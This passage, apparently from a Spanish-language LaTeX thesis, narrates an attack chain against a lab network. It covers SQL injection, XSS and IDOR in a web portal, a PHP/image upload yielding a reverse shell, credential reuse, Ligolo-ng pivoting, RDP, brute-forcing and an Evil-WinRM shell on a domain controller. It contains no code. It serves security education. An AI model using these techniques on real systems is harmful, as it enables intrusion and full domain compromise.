    
\includegraphics[width=0.85\textwidth]{Imagenes/xss-tickets.png}

    \vspace{0.2cm}
    \captionazul{Inserción de contenido controlado por el usuario en el módulo de tickets, representando un caso de XSS almacenado.}
    \label{fig:xss_tickets}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/IDOR-tickets.png}

    \vspace{0.2cm}
    \captionazul{Consulta de tickets mediante identificadores predecibles, representando un caso de IDOR.}
    \label{fig:idor_tickets}
\end{figure}

En conjunto, esta fase permitió validar que el portal web no actuaba como un simple punto de entrada aislado, sino como una superficie de ataque completa. La explotación del login permitió acceder al panel interno, la SQL Injection del módulo de tickets permitió recuperar credenciales y las vulnerabilidades XSS e IDOR demostraron la existencia de debilidades adicionales. Todo ello preparó el escenario para la siguiente fase de la cadena de ataque: la obtención de acceso inicial al servidor Ubuntu mediante la funcionalidad de subida de archivos.


% ---------------------------------------------------

\subsubsection{Acceso inicial al servidor Ubuntu}

Tras obtener acceso al panel interno, se identificó una funcionalidad de subida de imagen de perfil. Aunque la aplicación bloqueaba archivos PHP directos, el filtrado implementado resultó insuficiente, ya que aceptaba ficheros que simulaban ser imágenes pero conservaban una extensión interpretable por el servidor.

Este comportamiento permitió cargar un archivo híbrido con cabecera de imagen y código PHP. Al quedar almacenado en un directorio accesible desde el servidor web, el archivo pudo ser invocado desde el navegador, provocando ejecución remota de comandos en el servidor.

La ejecución del payload permitió obtener una reverse shell desde el servidor Ubuntu hacia la máquina atacante. El contexto inicial de ejecución correspondía al usuario del servicio web, \texttt{www-data}, lo que confirmó que el acceso inicial al sistema se había producido a través de la aplicación web.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/www-data.png}

    \vspace{0.2cm}
    \captionazul{Obtención de una shell inicial con el usuario del servicio web.}
    \label{fig:www_data_shell}
\end{figure}

Esta fase representa el paso de una explotación puramente web a un compromiso inicial del servidor Ubuntu. A partir de este punto, el atacante deja de interactuar únicamente con la aplicación y obtiene capacidad de enumeración local sobre el sistema comprometido.

% ---------------------------------------------------

\subsubsection{Escalada de privilegios}

Una vez obtenida la shell inicial como \texttt{www-data}, se realizaron tareas de enumeración local sobre el servidor comprometido. Durante esta fase se identificó que el servicio web se ejecutaba dentro de un entorno contenerizado y que existían ficheros compartidos accesibles desde el contexto comprometido.

Entre los elementos encontrados se localizaron credenciales reutilizables asociadas al usuario \texttt{dev}. Estas credenciales permitieron abandonar el contexto limitado del usuario del servicio web y establecer una conexión SSH contra el servidor Ubuntu.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/escalada-privilegio-web.png}

    \vspace{0.2cm}
    \captionazul{Uso de credenciales recuperadas durante la post-explotación para acceder al servidor Ubuntu.}
    \label{fig:escalada_privilegio_web}
\end{figure}

La escalada permitió consolidar el acceso al servidor y disponer de una sesión más estable para continuar con las fases posteriores. Aunque el acceso inicial se obtuvo desde la aplicación web, esta fase permitió transformar dicho acceso en una posición más útil dentro del sistema operativo.

% ---------------------------------------------------

\subsubsection{Obtención de credenciales}

La obtención de credenciales constituye una fase clave dentro de la cadena de ataque, ya que permite conectar el compromiso del servidor web con el acceso a otros sistemas de la infraestructura.

Durante la explotación del portal se recuperaron credenciales almacenadas en la base de datos de la aplicación. Asimismo, durante la enumeración local del servidor Ubuntu se localizaron credenciales reutilizables asociadas a usuarios del laboratorio.

Estas credenciales permitieron avanzar desde un acceso limitado al servidor web hacia otros sistemas internos. En particular, la cuenta \texttt{dev} resultó relevante para acceder al servidor Ubuntu mediante SSH y posteriormente para validar el acceso a la estación de trabajo DEV01.

Esta fase demuestra el impacto que puede tener una gestión deficiente de credenciales dentro de un entorno corporativo. Una vulnerabilidad inicial en una aplicación web puede derivar en la exposición de usuarios y contraseñas que, si son reutilizadas en otros servicios, facilitan el movimiento lateral y amplían el alcance del compromiso.

% ---------------------------------------------------

\subsubsection{Movimiento lateral}

Tras consolidar el acceso al servidor Ubuntu, se comprobó que el sistema disponía de conectividad hacia una red interna adicional correspondiente al segmento \texttt{10.10.10.0/24}. Esta red no era accesible directamente desde la máquina atacante, por lo que fue necesario utilizar el servidor comprometido como punto de pivote.

Para ello se empleó Ligolo-ng, creando un túnel entre Kali Linux y el servidor Ubuntu comprometido. Una vez establecida la conexión y añadida la ruta correspondiente, fue posible enumerar la red interna desde la máquina atacante como si existiera conectividad directa.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/ligolo.png}

    \vspace{0.2cm}
    \captionazul{Túnel de pivoting establecido hacia la red interna mediante Ligolo-ng.}
    \label{fig:ligolo_pivoting}
\end{figure}

La enumeración interna permitió identificar la estación \texttt{DEV01}, correspondiente a un equipo Windows 7 integrado en el entorno corporativo. El análisis de servicios reveló la presencia de SMB y RDP, lo que permitió validar el acceso remoto utilizando credenciales obtenidas en fases anteriores.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/RDP.png}

    \vspace{0.2cm}
    \captionazul{Acceso remoto a la estación DEV01 mediante RDP utilizando credenciales obtenidas previamente.}
    \label{fig:rdp_dev01}
\end{figure}

El compromiso de DEV01 representa la fase de movimiento lateral dentro de la infraestructura. A partir del servidor web inicialmente comprometido, el atacante consigue alcanzar un sistema interno que no era accesible de forma directa desde su posición inicial.

% ---------------------------------------------------

\subsubsection{Enumeración interna}

Una vez obtenida conectividad hacia la red interna, se procedió a enumerar los sistemas y servicios asociados a la infraestructura Active Directory. El objetivo de esta fase consistió en identificar el controlador de dominio, reconocer los servicios expuestos y recopilar información útil para el compromiso final.

El escaneo del sistema DC01 permitió identificar servicios característicos de un controlador de dominio Windows Server, como DNS, Kerberos, LDAP, SMB, Global Catalog, WinRM y Active Directory Web Services. La información obtenida permitió confirmar el nombre del equipo, el dominio \texttt{corp.local} y el rol del sistema dentro de la infraestructura.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/scaneo-DC01-detalle.png}

    \vspace{0.2cm}
    \captionazul{Detalle de servicios expuestos por DC01, incluyendo servicios propios de Active Directory.}
    \label{fig:scaneo_dc01_detalle}
\end{figure}

Esta fase permitió validar que la segmentación de red y la infraestructura Active Directory se comportaban conforme al diseño planteado. El controlador de dominio no era accesible inicialmente desde la máquina atacante, pero sí podía ser alcanzado tras comprometer el servidor Ubuntu y establecer el túnel hacia la red interna.

% ---------------------------------------------------

\subsubsection{Compromiso final}

La fase final consistió en validar el acceso administrativo al controlador de dominio DC01. Para ello se realizaron pruebas controladas de autenticación contra los servicios SMB y WinRM utilizando credenciales y diccionarios reducidos adaptados al laboratorio.

El proceso permitió identificar credenciales válidas con privilegios administrativos sobre el dominio. Posteriormente, se verificó que dichas credenciales podían utilizarse mediante WinRM para establecer una sesión remota interactiva sobre DC01.

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{Imagenes/login-brute-force.png}

    \vspace{0.2cm}
    \captionazul{Validación de credenciales administrativas contra los servicios del controlador de dominio.}
    \label{fig:login_brute_force}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/evil-wnrm-DC01.png}

    \vspace{0.2cm}
    \captionazul{Acceso remoto al controlador de dominio DC01 mediante Evil-WinRM.}
    \label{fig:evil_winrm_dc01}
\end{figure}

La obtención de una consola PowerShell sobre DC01 confirmó el compromiso del controlador de dominio y, con ello, la culminación de la cadena de ataque planteada en el laboratorio. En este punto, el atacante alcanza el objetivo final del escenario: comprometer la infraestructura corporativa interna a partir de un acceso inicial obtenido mediante la aplicación web expuesta.

% ---------------------------------------------------

\subsection{Resumen de la cadena de ataque}

La explotación validada durante este capítulo puede resumirse como una cadena progresiva de compromiso. En primer lugar, se identifica el portal web expuesto y se explotan vulnerabilidades presentes en la aplicación. Posteriormente, se obtiene acceso inicial al servidor Ubuntu mediante una carga de archivos insegura y ejecución remota de comandos. A continuación, se escalan privilegios y se recuperan credenciales que permiten pivotar hacia la red interna.

Una vez alcanzada la red interna, el atacante compromete la estación DEV01 y enumera los servicios asociados a Active Directory. Finalmente, mediante credenciales válidas y acceso remoto por WinRM, se obtiene control sobre el controlador de dominio DC01.

\begin{center}
\begin{tikzpicture}[
    node distance=0.6cm,
    fase/.style={
        rectangle,
        rounded corners,
        draw=blueColor,
        fill=blue!8,
        text width=7cm,
        align=center,
        minimum height=0.9cm,
        font=\small
    },
    sistema/.style={
        rectangle,
        rounded corners,
        draw=red!70,
        fill=red!8,
        text width=7cm,
        align=center,
        minimum height=0.9cm,
        font=\small
    },
    final/.style={
        rectangle,
        rounded corners,
        draw=green!70,
        fill=green!8,
        text width=7cm,
        align=center,
        minimum height=0.9cm,
        font=\small
    },
    flecha/.style={
        -{Latex[length=2.5mm]},
        thick
    }
]

\node[fase] (recon) {1. Reconocimiento\\Enumeración de servicios expuestos};
\node[fase, below=of recon] (web) {2. Explotación web\\Portal PYME vulnerable};
\node[sistema, below=of web] (ubuntu) {3. Acceso inicial\\Servidor Ubuntu};
\node[fase, below=of ubuntu] (priv) {4. Escalada de privilegios\\Compromiso del servidor};
\node[fase, below=of priv] (creds) {5. Obtención de credenciales\\Usuarios y servicios internos};
\node[sistema, below=of creds] (lateral) {6. Movimiento lateral\\DEV01};
\node[sistema, below=of lateral] (ad) {7. Enumeración interna\\Active Directory / DC01};
\node[final, below=of ad] (dominio) {8. Compromiso final\\Infraestructura corporativa};

\draw[flecha] (recon) -- (web);
\draw[flecha] (web) -- (ubuntu);
\draw[flecha] (ubuntu) -- (priv);
\draw[flecha] (priv) -- (creds);
\draw[flecha] (creds) -- (lateral);
\draw[flecha] (lateral) -- (ad);
\draw[flecha] (ad) -- (dominio);

\end{tikzpicture}
\end{center}

